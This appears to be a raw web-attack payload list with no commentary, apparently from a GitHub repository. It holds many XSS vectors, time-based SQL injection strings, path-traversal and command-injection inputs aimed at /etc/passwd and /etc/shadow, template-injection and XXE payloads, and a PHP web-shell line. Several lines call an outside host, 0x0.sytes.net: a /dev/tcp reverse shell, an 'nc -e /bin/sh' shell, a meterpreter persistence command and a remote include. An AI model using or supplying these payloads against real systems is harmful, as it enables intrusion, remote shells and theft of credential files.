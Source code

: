 <img+src%3dOnXSS+OnError%3dalert('AliElTop')>
'; SELECT * FROM users; --
<p onclick="this.innerText = getCode('AliElTop')">('AliElTop')</p>
<a href="javascript:alert('AliElTop')">('AliElTop')</a>
<a href="javascript:(function(){var page = document.createElement('html');page.innerHTML = '<head><title>AliElTop</title></head><body><h1>Hello AliElTop!</h1></body></html>';document.write('<!DOCTYPE html>' + page.outerHTML);})()">('AliElTop')</a>
<script>alert('AliElTop');</script>
<img src="invalid-image" onerror="alert('AliElTop')">
<input type="text" value="AliElTop" onfocus="alert('AliElTop')">
<svg/onload="alert('AliElTop')">
<img src=x onerror="alert('AliElTop')">
<head></head><body>padding<script>alert("AliElTop")</script>AliElTop</body>
"<SVg/ONloAd=alert(13337777)>"@x.y
"><svg/onload=prompt(/AliElTop/)>
'"--!><img src=x onerror=alert("AliElTop")> 
'"/><svg/onload=prompt(/AliElTop/)>
'"><script>alert("AliElTop")</script>
'"><script>confirm("AliElTop")</script>
'"><script>prompt("AliElTop")</script>
'"><svg/onload=alert(/AliElTop/)>
/cgi-bin/rr.cgi/https://www.google.com/
'"><svg/onload=confirm(/AliElTop/)>
'"><svg/onload=prompt(/AliElTop/)>
'>"/><svg/onload=prompt(/AliElTop/)>
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<img  src="x:gif" onerror="window['al\u0065rt'](13337777)"></img>
<svg/onload=prompt(/AliElTop/)>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("AliElTop")//>\x3exss.txt
'"><svg/onload=prompt`13337777`>
'"><svg/onload=alert`13337777`>')>
'"><svg/onload=confirm`13337777`>
'"><script>alert`13337777`</script> 
><script>alert`13337777`</script> 
'"><svg onload=prompt`AliElTop`>
'"><svg onload=alert`AliElTop`>
'"><svg onload=confirm`AliElTop`>
<!'/*!"/*!/'/*/"/*--!><Input/Autofocus/*/Onfocus=confirm`AliElTop`//><Svg>/
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnQWxpRWxUb3AnKTwvc2NyaXB0Pg==">('AliElTop')</a>
<img src=x onerror="alert('AliElTop');">
<Svg Only=1 OnLoad="alert('AliElTop')">
../../../../../../../../../../../../../../windows/win.ini
;alert(md5('AliElTop'))
{% For c in [1,2,3]%} {{c,c,c}} {% endfor %}
{{4*4}}[[5*5]]
%26ls||id%26
AliElTop
gh1tpn7ip68xi45lg48197t9107rvhj6.oastify.com
â€œ><script>alert(document.domain)</script>
<Svg Only=1 OnLoad=confirm(atob("QWxpRWxUb3A="))>
")'<!--><Svg OnLoad=(confirm)(13337777)<!--
">'-(k=alert,k(13337777))-'
<form><button formaction=javascript&colon;alert(13337777)
#"><img src=/ onerror=alert(13337777)>
<style><style /><img src=x onerror=alert(13337777)>
<img alt="<x" title="/><img src=x onerror=alert(13337777)>">
javascript://%0aalert(13337777)
<script\x20type="text/javascript">javascript:alert(13337777);</script>
<script\x3Etype="text/javascript">javascript:alert(13337777);</script>
<script\x0Dtype="text/javascript">javascript:alert(13337777);</script>
<script\x09type="text/javascript">javascript:alert(13337777);</script>
<script\x0Ctype="text/javascript">javascript:alert(13337777);</script>
<script\x2Ftype="text/javascript">javascript:alert(13337777);</script>
<script\x0Atype="text/javascript">javascript:alert(13337777);</script>
'`"><\x3Cscript>javascript:alert(13337777)</script>        
'`"><\x00script>javascript:alert(13337777)</script>
<img src=1 href=1 onerror="javascript:alert(13337777)"></img>
<audio src=1 href=1 onerror="javascript:alert(13337777)"></audio>
<video src=1 href=1 onerror="javascript:alert(13337777)"></video>
<body src=1 href=1 onerror="javascript:alert(13337777)"></body>
<image src=1 href=1 onerror="javascript:alert(13337777)"></image>
<object src=1 href=1 onerror="javascript:alert(13337777)"></object>
<script src=1 href=1 onerror="javascript:alert(13337777)"></script>
<svg xmlns="http://0x0.sytes.net/ali1.svg" onload="alert(13337777)"/>
-1" OR 2+199-199-1=0+0+0+1 --
-10'XOR(if(now()=sysdate(),sleep(20),0))XOR'Z
if(now()=sysdate(),sleep(20),0)
0"XOR(if(now()=sysdate(),sleep(20),0))XOR\
${@print(md5(31337))}
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>
'(select*from(select(sleep(20)))a)'
_next/image?url=
'%2beval(compile('for%20x%20in%20range(1)%3a%5cn%20import%20time%5cn%20time.sleep(20)'%2c'a'%2c'single'))%2b'
%7cping%20-n%2021%20127.0.0.1%7c%7c%60ping%20-c%2021%20127.0.0.1%60%20%23'%20%7cping%20-n%2021%20127.0.0.1%7c%7c%60ping%20-c%2021%20127.0.0.1%60%20%23%5c%22%20%7cping%20-n%2021%20127.0.0.1
../../../../../../../../../../../../../../etc/passwd
" + response.write(9776594*9852164) + \
sh -i 5<> /dev/tcp/0x0.sytes.net/4444 0<&5 1>&5 2>&5
run persistence -U -i 5 -p 4444 -r 0x0.sytes.net
nc 0x0.sytes.net 4444 -e /bin/sh
onmouseover=alert('AliElTop')
0x0.sytes.net:4444
http://0x0.sytes.net:4444
confirm('AliElTop')
http://0x0.sytes.net/ali1.svg
{{['id']|filter('system')}}
javascript:alert(1)
;@include('http://0x0.sytes.net/ali1.svg')
javascript:eval('var a=document.createElement(\'script\');a.src=\'https://js.rip/8dis0rxh46\';document.body.appendChild(a)')
"><a/href="javascrip&#116&#000000000000000000000000000000000000000000000058a:confirm(document.cookie)">AliElTop
"><a/href="javascrip&#116&#000000000000000000000000000000000000000000000058a:confirm(document.location)">AliElTop
"><a/href="javascrip&#116&#000000000000000000000000000000000000000000000058a:confirm(document.domain)">AliElTop
<a href="javascript:alert('AliElTop')">AliElTop</a>
"<?xml version='1.0' encoding='ISO-8859-1'?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM 'file:///etc/passwd' >]><foo>&xxe;</foo>
webshell.php
admin' OR '1'='1
"<img src="0x0.sytes.net" onload=window.open("0x0.sytes.net","AliElTop",'height=500,width=500');>
../../../../etc/passwd%00
"<img src=x onerror=alert('AliElTop')>
"<img src=x onload=alert('AliElTop')>
<iframe src=x onerror=prompt(13337777)>
"onclick=prompt(13337777)><svg/onload=prompt(13337777)>"@x.y
<iframe src=x onerror=confirm(13337777)>
<iframe src=x onerror=alert(13337777)>
"<?php system($_GET['cmd']); ?>
../../../../etc/passwd
%27%22%3E%3Ch1%3Etest%3C%2Fh1%3E{{7777*7777}}JyI%2bPGgxPnRlc3Q8L2gxPgo
;ls
ls
<image/src/onerror=alert('AliElTop')>
<img/src/onerror=alert('AliElTop')>
<image src/onerror=alert('AliElTop')>
<img src/onerror=alert('AliElTop')>
<image src =q onerror=alert('AliElTop')>
<img src =q onerror=alert('AliElTop')>
</scrip</script>t><img src =q onerror=alert('AliElTop')>
<script\x20type="text/javascript">alert('AliElTop');</script>
<script\x3Etype="text/javascript">alert('AliElTop');</script>
<script\x0Dtype="text/javascript">alert('AliElTop');</script>
<script\x09type="text/javascript">alert('AliElTop');</script>
<script\x0Ctype="text/javascript">alert('AliElTop');</script>
<script\x2Ftype="text/javascript">alert('AliElTop');</script>
<script\x0Atype="text/javascript">alert('AliElTop');</script>
'`"><\x3Cscript>alert('AliElTop')</script>
'`"><\x00script>alert('AliElTop')</script>
<img src=1 href=1 onerror="alert('AliElTop')"></img>
<audio src=1 href=1 onerror="alert('AliElTop')"></audio>
<video src=1 href=1 onerror="alert('AliElTop')"></video>
<body src=1 href=1 onerror="alert('AliElTop')"></body>
<image src=1 href=1 onerror="alert('AliElTop')"></image>
<object src=1 href=1 onerror="alert('AliElTop')"></object>
<script src=1 href=1 onerror="alert('AliElTop')"></script>
..//etc/passwd
../..//etc/passwd
../../..//etc/passwd
../../../..//etc/passwd
../../../../..//etc/passwd
../../../../../..//etc/passwd
../../../../../../..//etc/passwd
../../../../../../../..//etc/passwd
..%2f/etc/passwd
..%2f..%2f/etc/passwd
..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
%2e%2e//etc/passwd
%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
\n/bin/ls -al\n
\n/usr/bin/id\n
\nid\n
\n/usr/bin/id;
\nid;
\n/usr/bin/id|
\nid|
;/usr/bin/id\n
;id\n
|usr/bin/id\n
|nid\n
`id`
`/usr/bin/id`
a);id
a;id
a);id;
a;id;
a);id|
a;id|
a)|id
a|id
a)|id;
|/bin/ls -al
a);/usr/bin/id
a;/usr/bin/id
a);/usr/bin/id;
a;/usr/bin/id;
a);/usr/bin/id|
a;/usr/bin/id|
a)|/usr/bin/id
a|/usr/bin/id
a)|/usr/bin/id;
;system('id')
;system('/usr/bin/id')
%0Acat%20/etc/passwd
%0A/usr/bin/id
%0Aid
%0A/usr/bin/id%0A
%0Aid%0A
| id
& id
; id
%0a id %0a
$;/usr/bin/id
cat /etc/hosts
$(`cat /etc/passwd`)
cat /etc/passwd
{{ get_user_file("/etc/passwd") }}
<!--#exec cmd="/bin/cat /etc/passwd"-->
<!--#exec cmd="/bin/cat /etc/shadow"-->
<!--#exec cmd="/usr/bin/id;-->
system('cat /etc/passwd');
<?php system("cat /etc/passwd");?>
# from wapiti
sleep(20)#
1 or sleep(20)#
" or sleep(20)#
' or sleep(20)#
" or sleep(20)="
' or sleep(20)='
1) or sleep(20)#
") or sleep(20)="
') or sleep(20)='
1)) or sleep(20)#
")) or sleep(20)="
')) or sleep(20)='
;waitfor delay '0:0:20'--
);waitfor delay '0:0:20'--
';waitfor delay '0:0:20'--
";waitfor delay '0:0:20'--
');waitfor delay '0:0:20'--
");waitfor delay '0:0:20'--
));waitfor delay '0:0:20'--
'));waitfor delay '0:0:20'--
"));waitfor delay '0:0:20'--
benchmark(10000000,MD5(20))#
1 or benchmark(10000000,MD5(20))#
" or benchmark(10000000,MD5(20))#
' or benchmark(10000000,MD5(20))#
1) or benchmark(10000000,MD5(20))#
") or benchmark(10000000,MD5(20))#
') or benchmark(10000000,MD5(20))#
1)) or benchmark(10000000,MD5(20))#
")) or benchmark(10000000,MD5(20))#
')) or benchmark(10000000,MD5(20))#
pg_sleep(20)--
1 or pg_sleep(20)--
" or pg_sleep(20)--
' or pg_sleep(20)--
1) or pg_sleep(20)--
") or pg_sleep(20)--
') or pg_sleep(20)--
1)) or pg_sleep(20)--
")) or pg_sleep(20)--
')) or pg_sleep(20)--
AND (SELECT * FROM (SELECT(SLEEP(20)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(20)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(20)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(20)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(20)))nQIP)#
SLEEP(20)#
SLEEP(20)--
SLEEP(20)="
SLEEP(20)='
or SLEEP(20)
or SLEEP(20)#
or SLEEP(20)--
or SLEEP(20)="
or SLEEP(20)='
waitfor delay '00:00:20'
waitfor delay '00:00:20'--
waitfor delay '00:00:20'#
benchmark(50000000,MD5(20))
benchmark(50000000,MD5(20))--
benchmark(50000000,MD5(20))#
or benchmark(50000000,MD5(20))
or benchmark(50000000,MD5(20))--
or benchmark(50000000,MD5(20))#
pg_SLEEP(20)
pg_SLEEP(20)--
pg_SLEEP(20)#
or pg_SLEEP(20)
or pg_SLEEP(20)--
or pg_SLEEP(20)#
'\"
AnD SLEEP(20)
AnD SLEEP(20)--
AnD SLEEP(20)#
&&SLEEP(20)
&&SLEEP(20)--
&&SLEEP(20)#
' AnD SLEEP(20) ANd '1
'&&SLEEP(20)&&'1
ORDER BY SLEEP(20)
ORDER BY SLEEP(20)--
ORDER BY SLEEP(20)#
(SELECT * FROM (SELECT(SLEEP(20)))ecMj)
(SELECT * FROM (SELECT(SLEEP(20)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(20)))ecMj)--
+benchmark(3200,SHA1(20))+'
+ SLEEP(20) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(20)/*' or SLEEP(20) or '" or SLEEP(20) or "*/
<pre>system('cat /etc/passwd')</pre>
<svg xmlns="http://0x0.sytes.net/ali1.svg" onload="alert(document.domain)"/>
